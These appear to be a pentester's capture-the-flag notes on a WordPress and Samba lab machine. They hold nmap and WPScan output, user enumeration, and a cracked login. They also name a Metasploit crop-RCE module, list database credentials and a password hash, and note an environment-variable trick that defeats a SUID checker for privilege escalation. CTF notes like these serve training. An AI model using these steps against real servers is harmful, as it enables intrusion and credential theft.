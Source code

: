 ## NMAP
     80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
     |_http-generator: WordPress 5.0
     | http-robots.txt: 1 disallowed entry 
     |_/wp-admin/
     445, 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
     Service Info: Host: BLOG
     Host script results:
     | smb-security-mode: 
     |   account_used: guest
     |   authentication_level: user
     |   challenge_response: supported
     |_  message_signing: disabled (dangerous, but default)
     | smb2-security-mode: 
     |   2.02: 

## WPSCAN
WordPress version 5.0 identified (Insecure, released on 2018-12-06).

[i] User(s) Identified:
[+] Billy Joel -> bjoel
 |  - http://10.10.17.84/wp-json/wp/v2/users/?per_page=100&page=1
[+] Karen Wheeler -> kwheel / cutiepie1
 |  - http://10.10.17.84/wp-json/wp/v2/users/?per_page=100&page=1

## SMB
[+] Dir
    BillySMB -> R/W

[+] Found domain(s):
    BLOG
    WORKGROUP
    
[+] Users
    nobody
    bjoel
    smb

## MSFCONSOLE
use multi/http/wp_crop_rce

## Linux
wordpressuser / LittleYellowLamp90!@ -> mysql

export admin=vini -> /usr/sbin/checker

## MYSQL
bjoel -> $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/
